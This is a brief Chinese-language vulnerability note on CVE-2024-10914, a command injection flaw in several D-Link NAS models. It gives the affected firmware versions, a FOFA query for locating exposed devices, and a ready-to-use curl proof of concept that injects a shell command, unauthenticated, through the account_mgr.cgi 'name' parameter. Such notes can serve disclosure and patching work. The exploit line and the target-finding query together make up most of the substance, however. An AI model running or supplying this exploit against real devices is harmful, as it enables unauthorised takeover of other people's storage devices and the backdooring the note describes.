 # CVE-2024-10914

>D-Link网络存储是D-link公司的一款统一服务路由器。

## 来源

[https://securityonline.info/cve-2024-10914-cvss-9-2-command-injection-flaw-threatens-61000-d-link-nas-devices/](https://securityonline.info/cve-2024-10914-cvss-9-2-command-injection-flaw-threatens-61000-d-link-nas-devices/)

## 简介

D-Link NAS设备的/cgi-bin/account_mgr.cgi接口处存在命令注入漏洞，未经身份验证的攻击者通过特制的HTTP请求可利用此漏洞执行任意系统命令，写入后门文件，获取服务器权限。

## 漏洞类型

命令注入

## 影响范围

-   DNS-320 1.00
-   DNS-320LW 1.01.0914.2012
-   DNS-325 1.01
-   DNS-325 1.02
-   DNS-340L 1.08

## 网络绘测

fofa：`product="D_Link-DNS-ShareCenter"`

## POC

```shell
curl "http://{{BaseURL}}/cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;{{SHELL}};%27"
```
